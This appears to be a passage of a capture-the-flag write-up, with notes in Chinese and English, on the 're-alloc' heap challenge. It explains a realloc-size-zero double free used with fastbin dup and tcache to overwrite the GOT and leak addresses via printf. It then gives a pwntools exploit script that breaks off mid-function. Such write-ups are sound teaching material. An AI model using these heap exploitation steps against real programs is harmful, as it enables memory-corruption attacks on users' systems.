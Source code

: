 ```python=
    proc.interactive()
```

## re-alloc (solved after EOF)

* allocate 有 one NULL byte overflow
* 猜測要利用 NULL byte 拿到大意點的 chunk
* 然後做類似 NULL byte poison 的方法
* 賽後發現 realloc 時 size 給 0 可以 double free!!!!
* 利用 fastbin dup 和 tcache 的特性可以隨意寫 got
* atoll -> printf 用 format string 來 leak
* 因為 printf("%400p") 會回傳 400 所以原本的 read_long 還是可以正常用
* 只是要先準備好兩塊可以馬上 alloc 到 atoll_got 的 chunk 比較麻煩, 導致 0x20 的 fastbin 充滿了一堆垃圾XD
* 所以那個 NULL byte 只是寫錯(?

```python=
from pwn import *
import time
import sys


def alloc(ind, size, data):
    proc.sendlineafter(b': ', b'1')
    proc.sendlineafter(b':', f'{ind}'.encode())
    proc.sendlineafter(b':', f'{size}'.encode())
    proc.sendafter(b':', data)

def realloc(ind, size, data):
    proc.sendlineafter(b': ', b'2')
    proc.sendlineafter(b':', f'{ind}'.encode())
    proc.sendlineafter(b':', f'{size}'.encode())
    proc.sendafter(b':', data)

def realloc_free(ind):
    proc.sendlineafter(b': ', b'2')
    proc.sendlineafter(b':', f'{ind}'.encode())
    proc.sendlineafter(b':', b'0')

def free(ind):
    proc.sendlineafter(b': ', b'3')
    proc.sendlineafter(b':', f'{ind}'.encode())

def exit():
    proc.sendlineafter(b': ', b'4')

def printf(buf):
    proc.sendlineafter(b': ', b'3')
    proc.sendafter(b':', buf)


def overlap(size):
    for i in range(7):
        alloc(0, 0x18, b'A')
        realloc(0, size, b'A')
        free(0)
    alloc(0, 0x18, b'A')
    realloc(0, size, b'A')
    alloc(1, 0x18, b'A')
    realloc(1, size, b'A')
    realloc_free(0)
    free(1)
    free(0)
    for i in range(7):
```